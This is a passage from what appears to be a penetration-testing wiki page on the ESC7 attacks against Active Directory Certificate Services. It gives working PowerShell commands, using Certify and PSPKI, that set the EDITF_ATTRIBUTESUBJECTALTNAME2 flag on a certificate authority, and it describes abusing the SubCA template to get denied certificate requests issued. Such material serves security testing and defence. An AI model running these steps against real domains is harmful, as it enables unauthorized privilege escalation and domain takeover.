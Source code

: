 
=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to modify the CA object ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is run).

```powershell
Certify.exe cas

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI

# Get the current value of EDITF_ATTRIBUTESUBJECTALTNAME2 and modify it with SetConfigEntry
$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.domain.local"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.domain.local\CA" -getreg "policy\EditFlags"
```

If RSAT is not present, it can installed like this:

```powershell
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0
```

:::


#### ESC7 - Abusing `SubCA`

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, the `SubCA` built-in template can be used, along with a `ManageCA` right.

The `SubCA` template is vulnerable to the ESC1 attack, but only Domain Admins and Enterprise Admins can enroll in it. If a standard user tries to enroll in it, he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the `ManageCA` and `ManageCertificates` rights to validate the failed request anyway. The user can then retrieve the issued certificate by specifying the same ID.

::: tabs

=== UNIX-like

If the attacker only has the `ManageCA` permission, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate access rights over the CA object ([how to enumerate](./#attack-paths)) and modify some CA's attributes like the officers list (an officer is a user with the `ManageCertificates` right). The attacker could also enable or disable certificate templates.
